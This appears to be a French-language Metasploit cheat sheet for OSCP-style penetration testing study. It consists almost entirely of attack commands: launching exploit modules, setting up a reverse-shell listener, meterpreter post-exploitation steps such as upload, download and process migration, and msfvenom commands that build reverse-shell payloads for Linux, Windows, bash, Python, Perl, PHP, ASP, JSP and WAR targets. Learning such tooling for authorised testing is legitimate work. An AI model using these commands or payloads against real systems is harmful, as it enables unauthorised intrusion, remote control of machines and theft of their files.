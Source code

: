 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/f9d72356-a603-42c4-92b4-dfeff2f868b8" height="180">

**Lancer nmap dans metasploit:**  
msf5 > db_nmap -A [IP]  
Il est possible faire des traitement sur les résultats du nmap.  
Par exemple la commande service donne tout les services détectés par nmap:  
msf5 > service [IP]  

**Rechercher une vulnérabilité:**  
msf5 > search [service]  

**Utiliser un module:**  
msf5 > use [/nom/du/script]  

**Voir les infos du module:**  
msf5 exploit(nom/du/script) > show info  

**Modifier un paramètre (LHOST, LPORT …):**  
msf5 exploit(nom/du/script) > set [PARAMETRE] [VARIABLE]  

**Lancer le script:**  
msf5 exploit(nom/du/script) > run  

**Pour Ouvrir un port en écoute:**  
msf5 > use exploit/multi/handler  
msf5 exploit(multi/handler) > set lhost [IP]  
msf5 exploit(multi/handler) > set lport [PORT]  
msf5 exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp (liste des payload avec show payload)  
msf5 exploit(multi/handler) > run  

## Commande dans le meterpreter:  
**shell : **obtenir un shell  
**getuid :** Obtenir le nom de l'utilisateur qui execute le shell  
**sysinfo :** Obtenir des information sur le systeme et sur le meterpreter  
**upload :** upload un fichier via le metterpreter  
**download :** download un fichier via le metterpreter  
**lls /lcd :** lister et changer de repertoire en local quand un metterpreter est ouvert  
**backgroud :** mettre le metterpreter en backgroud  

## Migrer de processus:  
Si le metterpreter n'est pas stable il faut migrer de processus  
En utilisant un module POST : post/windows/manage/migrate  
ou alors avec la commande ps et migrate:  
meterpreter > ps  
meterpreter > migrate [PID]  

## Utilisation de modules de POST exploitation:  
post/multi/recon/local_exploit_suggester --> Liste les faille probable pour l'elevation de privilège sur windows  

## Générer des payloads avec msfvenom:  
**Linux:**  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > file.elf  

**Windows :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > file.exe  

**Pour Bash :**  
msfvenom -p cmd/unix/reverse_bash LHOST=[IP]LPORT=[PORT] -f raw > file.sh  

**Pour Python:**  
msfvenom -p cmd/unix/reverse_python LHOST=[IP] LPORT=[PORT] -f raw > file.py  

**Pour Perl :**  
msfvenom -p cmd/unix/reverse_perl LHOST=[IP] LPORT=[PORT] -f raw > file.pl  

**Générer un fichier .php :**  
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > file.php  

**Générer un fichier.asp :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f asp > file.asp  

**Générer un fichier .jsp :**  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > file.jsp  

**Générer un fichier .aspx :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f aspx > file.aspx  

**Générer un fichier .war:**  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > file.war  

